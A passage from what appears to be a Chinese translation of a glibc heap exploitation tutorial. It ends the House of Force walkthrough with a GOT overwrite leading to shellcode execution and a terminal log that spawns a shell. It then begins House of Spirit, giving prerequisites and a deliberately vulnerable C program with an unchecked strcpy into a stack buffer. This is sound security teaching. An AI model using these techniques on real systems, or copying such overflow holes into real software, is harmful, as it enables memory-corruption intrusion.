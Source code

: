 在行`[4]`中：

+   现在由于行`[3]`中的 top 块指向`0x8049850`，一个 256 字节的内存分配请求会使 glibc malloc 返回`0x8049858`，他会复制到`buf3`。

在行`[5]`中：

将`buf1 `的地址复制给`buf3`，会导致 GOT 覆盖。因此`free`的调用（行`[6]`）会导致 shellcode 执行。

使用攻击者的命令行参数执行漏洞程序，会执行 shellcode，像这样：

```
sploitfun@sploitfun-VirtualBox:~/lsploits/hof/hof$ gcc -g -z norelro -z execstack -o vuln vuln.c -Wl,--rpath=/home/sploitfun/glibc/glibc-inst2.20/lib -Wl,--dynamic-linker=/home/sploitfun/glibc/glibc-inst2.20/lib/ld-linux.so.2
sploitfun@sploitfun-VirtualBox:~/lsploits/hof/hof$ gcc -g -o exp exp.c
sploitfun@sploitfun-VirtualBox:~/lsploits/hof/hof$ ./exp 
$ ls
cmd  exp  exp.c  vuln  vuln.c
$ exit
sploitfun@sploitfun-VirtualBox:~/lsploits/hof/hof$ 
```

保护：直到现在，没有添加针对这个技巧的任何保护。这个技巧能帮助我们利用堆溢出，即使它使用最新的 glibc 编译。

## House of Spirit

在这个技巧中，攻击者欺骗 glibc malloc 来返回一个块，它位于栈中（而不是堆中）。这允许攻击者覆盖储存在栈中的返回地址。

预备条件：下面是用于成功利用 house of spirit 的预备条件，因为不是所有堆溢出漏洞程序都可以使用这个技巧利用。

+   一个缓冲区溢出，用于覆盖一个变量，它包含块地址，由 glibc malloc 返回。
+   上面的块应该是空闲的。攻击者应该能够控制这个空闲块的大小。它以这种方式控制，空闲块的大小等于下一个分配块的大小。
+   Malloc 一个块。
+   用户输入应该能够复制到上面所分配的块中。

漏洞程序：这个程序满足上述要求

```c
/* vuln.c
House of Spirit vulnerable program
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void fvuln(char *str1, int age)
{
   char *ptr1, name[44];
   int local_age;
   char *ptr2;
   [1]local_age = age; /* Prereq 2 */

   [2]ptr1 = (char *) malloc(256);
   printf("\nPTR1 = [ %p ]", ptr1);
   [3]strcpy(name, str1); /* Prereq 1 */
   printf("\nPTR1 = [ %p ]\n", ptr1);
   [4]free(ptr1); /* Prereq 2 */

   [5]ptr2 = (char *) malloc(40); /* Prereq 3 */
   [6]snprintf(ptr2, 40-1, "%s is %d years old", name, local_age); /* Prereq 4 */
   printf("\n%s\n", ptr2);
}

int main(int argc, char *argv[])
{
   int i=0;
   int stud_class[10];  /* Required since nextchunk size should lie in between 8 and arena's system_mem. */
```